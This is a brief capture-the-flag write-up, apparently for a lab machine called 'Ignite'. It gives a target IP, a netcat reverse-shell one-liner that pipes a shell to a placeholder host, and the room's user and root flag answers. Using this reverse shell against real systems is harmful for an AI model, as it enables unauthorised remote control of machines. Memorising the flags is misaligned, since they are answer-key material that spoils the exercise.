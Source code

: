 # Ignite
  
> A new start-up has a few issues with their web server.


----

```bash
export IP=10.10.143.31
```

* netcat reverse shell:

```bash

rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc x.x.x.x 1337 >/tmp/f

```


----


## Task 1  Root it!

* Root the box! Designed and created by DarkStar7471, built by Paradox.

* ----------------------------------------------------

* Enjoy the room! For future rooms and write-ups, follow @darkstar7471 on Twitter.

--- 

* Answer the questions below
* User.txt

```
6470e394cbf6dab6a91682cc8585059b
```

* Root.txt

```
b9bbcb33e11b80be759c4e844862482d
```
